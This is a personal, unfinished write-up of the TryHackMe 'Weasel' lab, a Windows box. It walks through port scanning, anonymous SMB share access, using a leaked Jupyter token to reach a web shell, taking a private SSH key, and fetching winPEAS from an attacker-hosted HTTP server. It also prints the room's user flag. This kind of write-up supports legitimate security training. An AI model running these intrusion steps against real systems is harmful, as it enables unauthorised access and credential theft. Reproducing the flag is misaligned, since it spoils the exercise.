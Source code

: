 `solution = https://www.youtube.com/watch?v=2Jv957vQhS4`
`export IP='10.10.85.96'`
# Weasel
`url = https://tryhackme.com/room/weasel`
`date = 05/28/2023`

## Enumeration
---

1. **Network Enumeration**

* We can see that ports `22`, `135`, `139`, `445` & `3389` are open:
```bash
    22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
* We now know that this is a windows machine. Port `3389` suggests that remote desktop services are open. The other ports are just other services that RDP might require like net-bios or msrpc.

* No website hosted - port `80`. But there's ssh open so that's that.

* The `all_ports` scan shows a few other tings like:
```bash
    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-05-28T04:09:13
    |_  start_date: N/A
```
2. **SMB Enumeration**

* Running the command --
```bash
smbclient --no-pass -L $IP
# No pass to login without a pass
# -L for listing the services on the client
```
The output is:
```bash
    Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	datasci-team    Disk      
	IPC$            IPC       Remote IPC
```
*Note -- This is my first Windows machine, so I am being explicit with all steps.*

* Now using a the same command, but with a little different syntax, we can see the insides of the file system `smbclient --no-pass //$IP/datasci-team`.

* This will open the promppt `smb: \>` where we can interact with this client. I can see different files, that are hosted on this server. I am using the `get` command to get the files that I find interesting:

```
BI002_2613_Cz-40-2_Acta-T34-nr25-347-359_o.pdf
Dillard_Living_Like_Weasels.pdf
'Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv'
requirements.txt
weasel.ipynb
jupyter-token.txt
weasel.txt
```
* Port `8888` is not seen anywhere in the network scans, however, since there is a `jupyter-token.txt` file in the smb-share, a few things become clear.
    - Port `8888` is a port used for jupyter notebooks. going to `http://$IP:8888` will give us access to the jupyter page.
    - Jupyter can serve notebooks on a server just like any other file server. Users are required to login. `jupyter notebook list` will show the available notebooks.

## Exploitation & Post Exploitation
---

* **Jupyter Shell**
    - We can access this Windows machine using the shell on jupyter's web-page.
    - We can truly enumerate this machine from here now. We are greeted with the home directory of the jupyter system user. This is just like www-data. Out of the many files in the directory, one of the important ones is: `dev-datasci-lowpriv_id_ed25519`, which is a private key.
    - Now we can get this file & ssh into it.
* **Windows Shell**
    - Change the perms for the private key to 600 & then ssh into it : `ssh -i id_ed25519 dev-datasci-lowpriv@$IP`.
    - This gives us a windows shell. The windows machine can now be enumerated for more intel.
    - Now we can go to the desktop & cat out the user flag which is found here - `C:\Users\dev-datasci-lowpriv\Desktop` using the more command - `more user.txt`. We get `THM{w3as3ls_@nd_pyth0ns}`.

## PrivEsc
 * **WinPEAAS**
    - We can get winPEAAS from here - `https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/WinPeas.ps1`.
    - Performing curl is not working, hence we can do the python server method : `curl http://10.6.36.128:8000/a.ps1 --output a.ps1`.
    - 

## Explaination Time !!
---

1. The main vulnerability here is that the smb server running has no password enabled.

2. Through this we could enumerate the file system & get access to a jupyter-token file.

3. It is through this file that we know, that a jupyter server is being run on the system on `port 8888`.

4. Visiting this page, we can access this server using the token.

5. Using the terminal we are logged in as the `dev-datasci@DEV-DATASCI-JUP` user which is a system user. However, it has the `uid = 1000` which does not make sense to me. Maybe this user has been created by the sys-adm.

6. 